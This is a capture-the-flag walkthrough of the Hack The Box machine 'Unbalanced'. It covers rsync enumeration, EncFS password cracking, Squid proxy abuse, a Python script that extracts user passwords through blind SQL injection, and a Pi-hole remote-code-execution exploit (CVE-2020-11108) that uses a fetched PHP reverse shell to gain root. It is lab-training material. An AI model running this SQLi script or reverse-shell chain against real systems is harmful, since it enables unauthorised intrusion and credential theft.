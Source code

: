 ```yaml
---
image: /assets/avatars/unbalanced.png
title: Unbalanced Writeup
author: Valerio Casalino
style: fill
tags: [Writeups, Hackthebox]
description: Writeup for Unbalanced (Hackthebox)
---
```


# Unbalanced

As always, `nmap` it:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.200 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
mkdir nmap && sudo nmap -sC -sV -oN nma/assets/unbalanced -p $ports 10.10.10.200
...
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA)
|   256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA)
|_  256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519)
873/tcp  open  rsync      (protocol version 31)
3128/tcp open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```

If we check port `873`, we can see the `rsync` daemon running, checking its content, we can find:

```bash
rsync -av rsync://10.10.10.200
conf_backups    EncFS-encrypted configuration backups
```

So, let's get that stuff in our working directory:

```bash
mkdir rsync-encrypted && rsync -uvrP rsync://10.10.10.200/conf_backups rsync-encrypted
```

This doesn't require authentication, but we have to crack the password of the [EncFS](https://wiki.archlinux.org/index.php/EncFS) file system using John the Ripper and its support scripts:

```bash
encfs2john rsync-encrypted > encfs-john.hash
john --wordlist=/usr/share/wordlists/passwords/rockyou.txt encfs-john.hash 2>/dev/null
```

![image-20201122174007082](/assets/unbalanced/image-20201122174007082.png)

Now we know the encryption password: `bubblegum`, so we can mount that file system using that password:

```bash
mkdir rsync-decrypted
encfs "$PWD/rsync-encrypted" "$PWD/rsync-decrypted"
# Insert password and we're ON
```

Reading `squid.conf` we can find useful information on port `3128`... [Squid](http://www.squid-cache.org/) is used as an HTTP proxy server requiring authentication to be used. This line gives us a new host:

![image-20201122174703962](/assets/unbalanced/image-20201122174703962.png)

Adding that virtual host to our hosts file, visiting that page we get a redirection by `index.php`:

![image-20201122211206917](/assets/unbalanced/image-20201122211206917.png)

Then, this page is in front of us:

![image-20201122211239642](/assets/unbalanced/image-20201122211239642.png)

Now, this other line gives us credentials to interact with `squid` remotely:

![image-20201122211335206](/assets/unbalanced/image-20201122211335206.png)

Now, what we need to do is fuzzing around with `squidclient`:

```bash
# This will show a list of stuff we can see (disabled or protected) with this client
squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:menu
# The important thing is here
squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:fqdncache
...
Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
127.0.0.1                                       H -001   1 localhost
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
ff02::1                                         H -001   1 ip6-allnodes
ff02::2                                         H -001   1 ip6-allrouters
...
```

Seems like `172.17.0.1` is a load balancer, so let's watch the hosts in which we are never redirected, after a while we get the right one (`172.31.179.1`). It is apparently the same, except for the fact that this is vulnerable to SQL injections:

![image-20201122211948673](/assets/unbalanced/image-20201122211948673.png)

Now we should exploit this SQLi to get some passwords! After some trial and errors, we can see that the best injection comes from querying the password substring to get a list of users with that password. This is done with this parameter in the password field:

```sql
' or substring(Password,{i},1)='{letter}
```

Putting it in a python script for all users:

```python
# Built in
import string
import re
import sys

# External
import requests

# Users retrieved with basic SQLi from http://172.31.179.1/intranet.php
users = [ 'rita', 'jim', 'bryan', 'sarah' ]
# List of credentials to print in the end!
final = []

print("Welcome!! it'll be done in moments", end ="")

for user in users:
    print(f"\n[*] Starting with {user}")
    stop = False
    password = ""
    i = 1
    while not stop:
        stop = True
        for letter in string.printable:
            # Endpoint
            url = "http://172.31.179.1/intranet.php"
            # POST data found with BURP
            data = {
                    "Username": "lolz", 
                    "Password": f"' or substring(Password,{i},1)='{letter}"
                    }
            # Proxy config for response module
            proxy = {"http": "http://10.10.10.200:3128"}
            # Initializing actual request
            res = requests.post(url, data=data, proxies=proxy)
            # If our user is found, then break the loop and look for another
            # letter incrementing the counter
            if re.search(user, res.text):
                # Look for the next letter
                stop = False
                i += 1
                # Update password
                password += letter
                # Rewrite line
                sys.stdout.write('\r')
                sys.stdout.flush()
                # Print line
                print(f"[+] {user}'s password: {password}", end="")
                break

```

 And the results are here!

![image-20201122223842975](/assets/unbalanced/image-20201122223842975.png)

Let's try to `ssh` in, and the only user who can is `bryan`. In `bryan`'s directory, we find the `TODO` file, which gives us info about what the user is working on. 

```
############
# Intranet #
############
* Install new intranet-host3 docker [DONE]
* Rewrite the intranet-host3 code to fix Xpath vulnerability [DONE]
* Test intranet-host3 [DONE]
* Add intranet-host3 to load balancer [DONE]
* Take down intranet-host1 and intranet-host2 from load balancer (set as quiescent, weight zero) [DONE]
* Fix intranet-host2 [DONE]
* Re-add intranet-host2 to load balancer (set default weight) [DONE]
- Fix intranet-host1 [TODO]
- Re-add intranet-host1 to load balancer (set default weight) [TODO]

###########
# Pi-hole #
###########
* Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
* Set temporary admin password [DONE]
* Create Pi-hole configuration script [IN PROGRESS]
- Run Pi-hole configuration script [TODO]
- Expose Pi-hole ports to the network [TODO]
```

We learn that there is PI-Hole running in a Docker container, so let's discover where is the web interface.

![image-20201122233022143](/assets/unbalanced/image-20201122233022143.png)

Now we can go to the Pi-Hole admin page located at `http://172.31.11.3/admin/index.php`:

![image-20201122233125990](/assets/unbalanced/image-20201122233125990.png)

If you make a research using that particular software version you can find [this article](https://frichetten.com/blog/cve-2020-11108-pihole-rce/), which will guide us to RCE and privilege escalation. The credentials for the admin page are `admin:admin` by the way. Follow the instructions on the article to get this result:

![image-20201122234006765](/assets/unbalanced/image-20201122234006765.png)

Then, after `.domains`, paste some malicious PHP, in my case, I used this:

```bash
curl -sL "wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" | xclip -sel c
```

This command should copy the php script in the clipboard, but in case it doesn't work, just visit the url. After that, visit `/admin/scripts/pi-hole/php/lolz.php` to trigger the shell. And here we have `www-data`:

![image-20201122235326489](/assets/unbalanced/image-20201122235326489.png)

Still following the article, now we should overwrite `teleport.php` and restart `pihole` triggering another shell as `root` (as the standard script of PI-Hole) launches the process as `root`:

![image-20201122235933785](/assets/unbalanced/image-20201122235933785.png)

And... now it is strange, because in the configuration script written by `root`, we find a password that can be used to login with (`su root`), but I expected something more.

![image-20201123000132518](/assets/unbalanced/image-20201123000132518.png)

Anyway... profit!
